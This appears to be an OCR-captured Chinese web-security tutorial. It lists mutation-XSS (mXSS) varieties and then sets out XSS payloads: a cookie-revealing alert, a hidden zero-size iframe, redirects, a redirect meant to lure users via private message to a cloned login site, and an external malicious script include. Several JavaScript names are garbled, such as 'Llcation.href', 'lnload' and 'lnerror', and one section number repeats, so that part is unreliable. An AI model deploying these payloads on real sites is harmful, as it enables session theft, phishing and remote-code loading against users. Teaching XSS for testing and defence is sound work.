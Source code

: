 #### mXSS种类

目前为止已知的mXSS种类，接下来的部分将分别对这几类进行讨论与说明。

- 反引号打破属性边界导致的 mXSS；（该类型是最早被发现并利用的一类mXSS，于2007年被提出，随后被有效的修复）
- 未知元素中的xmlns属性所导致的mXSS；（一些浏览器不支持HTML5的标记，例如IE8，会将article，aside，menu等当作是未知的HTML标签。）
- CSS中反斜线转义导致的mXSS；（在CSS中，允许用\来对字符进行转义，例如：`property: 'v\61 lue'` 表示 `property:'value'`，其中61是字母a的ascii码（16进制）。\后也可以接unicode，例如：\20AC 表示 € 。正常情况下，这种转义不会有问题。但是碰上innerHTML后，一些奇妙的事情就会发生。）
- CSS中双引号实体或转义导致的mXSS；（接着上一部分，依然是CSS中所存在的问题，`"`  `"` `"` 等双引号的表示形式均可导致这类问题，）
- CSS属性名中的转义所导致的mXSS；
- 非HTML文档中的实体突变；
- HTML文档中的非HTML上下文的实体突变；

# 二、构造XSS脚本
## 2.1 常用HTML标签
```
<iframe>  iframe元素会创建包含另外一个文档的内联框架（即行内框架）。
<textarea>  <textarea>标签定义多行的文本输入控件。
<img>    img元素向网页中嵌入一幅图像。
<script>  <script>标签用于定义客户端脚本，比如JavaScript。script元素既可以包含脚本语句，也可以通过src属性指向外部脚本文件。必须的type属性规定脚本的MIME类型。JavaScript的常见应用时图像操作、表单验证以及动态内容更新。
```

## 2.2 常用JavaScript方法
```
alert   alert()方法用于显示带有一条指定消息和一个确认按钮的警告框。
window.location   window.location对象用于获得当前页面的地址（URL），并把浏览器重定向到新的页面。
Llcation.href   返回当前显示的文档的完整URL
lnload   一张页面或一幅图像完成加载。
lnsubmit   确认按钮被点击。
lnerror   在加载文档或图像时发生错误。
```

## 2.3 构造XSS脚本
### 2.3.1 弹窗警告
此脚本实现弹框提示，一般作为漏洞测试或者演示使用，类似SQL注入漏洞测试中的单引号’，一旦次脚本能执行，也就意味着后端服务器没有对特殊字符做过滤<>/’，这样就可以证明，这个页面位置存在了XSS漏洞。
```Javascript
<script>alert(‘xss’)</script>
<script>alert(document.cookie)</script>
```
### 2.3.2 页面嵌套
```html
<iframe src=http://www.baidu.com width=300 height=300></iframe>
<iframe src=http://www.baidu.com width=0 height=0 border=0></iframe>
```
### 2.3.3 页面重定向
```Javascript
<script>window.location=”http://www.baidu.com”</script>
<script>location.href=”http://www.baidu.com”</script>
```
### 2.3.4 弹框警告并重定向
```Javascript
<script>alert(“请进入新的网站”);location.href=”http://www.baidu.com”</script>
<script>alert(‘xss’);location.href=”http://10.1.1.2/mul/test.txt”</script>
// 通过网站内部私信的方式将其发给其他用户。如果其他用户点击并且相信了这个信息，则可能在另外的站点重新登录账户（克隆网站收集账户）。
```
### 2.3.4 访问恶意代码
```Javascript
<script src=”http://www.baidu.com/xss.js”></script>
```
